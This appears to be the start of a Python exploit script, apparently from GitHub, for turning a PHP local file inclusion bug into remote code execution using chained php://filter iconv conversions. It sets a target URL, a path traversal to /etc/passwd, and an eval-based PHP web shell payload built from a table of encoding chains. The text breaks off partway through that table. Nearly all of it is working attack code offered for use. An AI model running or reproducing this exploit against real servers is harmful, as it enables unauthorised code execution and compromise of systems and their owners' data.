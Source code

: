 ```python
# CHANGE ME

url = "http://target-ip/script.php?page="  # url to the vulnerable path
file_to_use = "../../../../../etc/passwd/" # a file vulnerable to LFI
command = "phpinfo();" # This command gets executed on the target, use your own command here and url encode it


################################################################################################3
import base64

# The code in the variable "payload" is the code that executes the command on the target
# The payload gets inserted using the php filter before included file
# and gets included together with the "file_to_use".
# The payload works by reading the command from the from url and passing it to eval.
# You could also directly put the command in the payload, but that will result in an extermely long
# url that will most likely be rejected by the server.

payload = "<?= $a =$_GET['0'];eval($a);?>"
payload = payload.encode('utf-8')
base64_payload = base64.b64encode(payload).decode('utf-8').replace("=", "")

conversions = {
    '0': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2',
    '1': 'convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4',
    '2': 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921',
    '3': 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE',
    '4': 'convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE',
    '5': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2',
    '6': 'convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.CSIBM943.UCS4|convert.iconv.IBM866.UCS-2',
    '7': 'convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4',
    '8': 'convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
    '9': 'convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB',
    'A': 'convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213',
    'a': 'convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE',
    'B': 'convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000',
    'b': 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE',
    'C': 'convert.iconv.UTF8.CSISO2022KR',
    'c': 'convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2',
    'D': 'convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213',
    'd': 'convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5',
    'E': 'convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT',
    'e': 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UTF16.EUC-JP-MS|convert.iconv.ISO-8859-1.ISO_6937',
    'F': 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB',
    'f': 'convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213',
    'g': 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8',
    'G': 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90',
    'H': 'convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213',
```